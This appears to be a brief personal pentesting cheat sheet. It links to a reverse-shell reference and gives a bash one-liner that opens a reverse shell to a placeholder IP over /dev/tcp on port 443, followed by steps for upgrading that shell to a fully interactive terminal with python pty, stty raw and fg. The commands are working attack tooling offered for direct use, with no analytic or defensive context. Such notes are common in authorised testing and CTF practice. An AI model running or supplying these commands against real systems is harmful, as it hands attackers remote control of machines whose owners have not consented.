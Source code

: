 https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

One liner bash shell
```
bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"
```

How to make a fully interactive shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")' 
CTRL+Z 
stty raw 
-echo 
fg 
export TERM=xterm

#not all steps may be needed
```
